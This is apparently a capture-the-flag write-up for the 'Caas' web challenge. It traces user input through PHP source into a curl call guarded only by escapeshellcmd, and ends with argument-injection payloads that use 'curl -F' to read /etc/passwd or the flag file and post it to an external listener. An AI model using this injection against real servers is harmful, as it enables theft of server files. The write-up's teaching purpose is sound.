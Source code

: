 # Caas
![alt text](https://github.com/0x0ff3ns1v3/CTF-WriteUps/edit/main/Cyber Apolcalypse 2021/Pasted image 20210419183444.png)

The website gives the ability to request a URL through javascript. The following shows the javascript request.
```bash
...snip...
fetch('/api/curl', {
      method: 'POST',
      body: `ip=${host}`,
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      }
    })
...snip...
```

Reading the source code shows the _api/curl_ references the _CurlController_ file and uses the _execute_ function.
```bash
...snip...
$router->new('POST', '/api/curl', 'CurlController@execute' );
...snip...
```

This then gets passed to CommandModel.php as shown
```bash
...snip...
$command = new CommandModel($url);
...snip...
```

Finally, it reaches the point of execution on the file system.
```bash
...snip...
$this->command = "curl -sL " . escapeshellcmd($url);
...snip...
exec($this->command, $output);
...snip...
```

We see that the _escapeshellcmd_ is used and the command being executed is curl. This is not good as it will  do the following " Following characters are preceded by a backslash: ``&#;`|*?~<>^()[]{}$\``, `\x0A` and `\xFF`. `'` and `"` are escaped only if they are not paired. On Windows, all these characters plus `%` and `!` are preceded by a caret (`^`)." Luckily, curl has the ability to read a local file and send it to remote URL with the syntax as shown below.
```bash
$url = '-F password=@/etc/passwd http://example.com';
```

We must investigate where the web server is being hosted so we know where to read the file from. Reading the nginx conf shows the root located at /www
```bash
...snip...
root /www;
...snip...
```

Using this information, we can simply request the flag and send the request to our host machine. However, we must ensure the host is internet accessible. We can send the following command after setting up a nc listener on port 8000.

```bash
curl http://178.62.50.172:31782/api/curl -X POST -d 'ip=-F password=@/www/flag http://<PUBLIC IP ADDRESS>:8000'
```

